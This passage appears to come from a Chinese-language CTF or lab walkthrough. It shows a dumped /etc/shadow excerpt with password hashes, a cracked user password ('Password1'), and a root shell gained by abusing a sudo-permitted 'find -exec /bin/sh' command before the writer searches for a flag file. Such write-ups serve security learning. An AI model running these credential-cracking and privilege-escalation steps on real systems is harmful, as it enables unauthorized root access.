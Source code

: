```txt
geoclue:!!:18785::::::
gdm:!!:18785::::::
rpcuser:!!:18785::::::
nfsnobody:!!:18785::::::
gnome-initial-setup:!!:18785::::::
pcp:!!:18785::::::
sshd:!!:18785::::::
avahi:!!:18785::::::
oprofile:!!:18785::::::
tcpdump:!!:18785::::::
leonard:$6$JELumeiiJFPMFj3X$OXKY.N8LDHHTtF5Q/pTCsWbZtO6SfAzEQ6UkeFJy.Kx5C9rXFuPr.8n3v7TbZEttkGKCVj50KavJNAm7ZjRi4/::0:99999:7:::
mailnull:!!:18785::::::
smmsp:!!:18785::::::
nscd:!!:18785::::::
missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/:18785:0:99999:7:::
```

root的密码好像并不好破解。。。。
还是得尝试一下其他用户
![Pasted image 20240921222237.png](/img/user/picture/Pasted%20image%2020240921222237.png)

得到用户密码：
```txt
Password1        (missy)
```


我们查看一下他的`sudo -l`
![Pasted image 20240921222829.png](/img/user/picture/Pasted%20image%2020240921222829.png)

可以发现有find的sudo权限
![Pasted image 20240921222911.png](/img/user/picture/Pasted%20image%2020240921222911.png)
```shell

sudo find . -exec /bin/sh \; -quit

```

得到rootshell
![Pasted image 20240921222940.png](/img/user/picture/Pasted%20image%2020240921222940.png)

顺便贴一下找flag的指令：
```shell
find / -name flag2.txt 2>/dev/null
```


![Pasted image 20240921223043.png](/img/user/picture/Pasted%20image%2020240921223043.png)